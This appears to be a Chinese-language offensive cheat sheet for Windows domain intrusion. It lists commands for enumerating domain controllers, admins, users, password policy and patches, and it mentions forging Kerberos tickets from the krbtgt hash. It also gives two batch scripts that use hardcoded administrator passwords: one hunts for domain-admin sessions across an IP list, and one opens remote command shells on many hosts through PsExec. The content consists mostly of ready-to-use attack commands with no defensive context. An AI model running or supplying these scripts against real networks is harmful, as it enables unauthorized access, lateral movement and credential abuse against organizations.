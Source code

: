 ` net group "domain controllers" /domain `: 得到域控制器主机名 

 注意通过该指令得到的机器名后面会多一个$符号



` net group "domain admins" /domain `  : 查询域管理用户 

` net user /domain `查看所有域用户

` net config workstation ` : 查询当前登陆域 

` net accounts /domain `:  查询域密码策略 

` wmic qfe ` : 查看补丁信息 

` wmic os `:  查看操作系统类型 

`ipconfig /all  `查询本机IP段，所在域等

`tasklist /S ip /U domain\username /P /V             `查看远程计算机进程列表



 有一个特殊用户叫做krbtgt，该用户是用于Kerberos身份验证的帐户，获得了该用户的hash，就可以伪造票据进行票据传递攻击了 



#### 批量查找 域管理员登陆过目标计算机



```bat
@echo off
echo check ip addr config file...
if not exist ip.txt echo ip addr config file ip.txt does not exist! & goto end
echo read and analysis file...
for /F "eol=#" %%i in (ip.txt) do echo %%i &(echo %%i &tasklist /s %%i /u administrator /p mytest2010 /v) >>d:\result.txt
:end
exit
```



#### 批量反弹cmdshell

```cmd
@echo off
echo check ip addr config file...
if not exist ip.txt echo ip addr config file ip.txt does not exist! & goto end
echo read and analysis file...
for /F "eol=#" %%i in (ip.txt) do start PsExec.exe \\%%i -accepteula -u administrator -p "123456" cmd & start cmd /c PsExec.exe \\%%i -u administrator -p "123456" cmd
:end
exit
```



### 访问内网其他主机

 net use建立Ipc$连接、wmic指令连接、采用rdp方式连接 , psexec进行远程连接 
